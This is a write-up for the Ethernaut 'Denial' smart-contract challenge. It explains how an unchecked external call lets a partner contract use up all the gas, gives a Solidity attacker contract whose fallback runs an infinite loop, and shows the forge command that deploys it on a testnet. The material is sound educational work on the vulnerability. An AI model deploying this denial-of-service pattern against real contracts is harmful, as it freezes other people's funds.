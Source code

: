 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/20-denial.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 20 - Denial</strong></h1>

</div>

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Objectif](#objectif)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)

## Objectif

<img src="../assets/requirements/20-denial-requirements.webp" width="800px"/>

## The hack

The goal of the Denial challenge is to prevent the owner from withdrawing funds using the `withdraw()` function. How to do that?

Let's take a look at the `withdraw()` function:

```javascript
function withdraw() public {
        uint amountToSend = address(this).balance / 100; // 1% of the contract's balance
        partner.call{value:amountToSend}(""); // Send to partner using call
        payable(owner).transfer(amountToSend); // Send to owner using transfer

        // The rest is irrelevant to the solution, but note that the CEI isn't respected
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] +=  amountToSend;
    }
```

There are 2 external calls here:

- `partner.call{value:amountToSend}("");`
- `payable(owner).transfer(amountToSend);`

There isn't much we can do with the `transfer` to the owner. However, we know that the `call` function forwards all the remaining gas to the callee. Unfortunately, since the return value isn't checked, simply reverting upon receiving ether wouldn't work. So we have to find another way to break the `withdraw` function.

This can be achieved by using all the remaining gas within the fallback function. By doing so, the `withdraw()` function will never be able to complete its execution. In this case, a useless infinite loop will do the work beautifully:

```javascript
fallback() external payable {
    while (true) {}
}
```

## Solution

Let's implement the solution accordingly:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface IDenial {
    function setWithdrawPartner(address _partner) external;
}

contract Stop {
    IDenial idenial;

    constructor(address _denial) {
        idenial = IDenial(_denial);
    }

    function becomePartner() public {
        idenial.setWithdrawPartner(address(this));
    }

    fallback() external payable {
        while (true) {}
    }
}

```

Then run the script with the following command:

```bash
forge script script/20_Denial.s.sol:PoC --rpc-url sepolia --broadcast --verify --etherscan-api-key $ETHERSCAN_API_KEY --watch
```

## Takeaway

- Always check the return value of the `call` function.
- A specific amount of gas can be specified when using the `call` function.

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
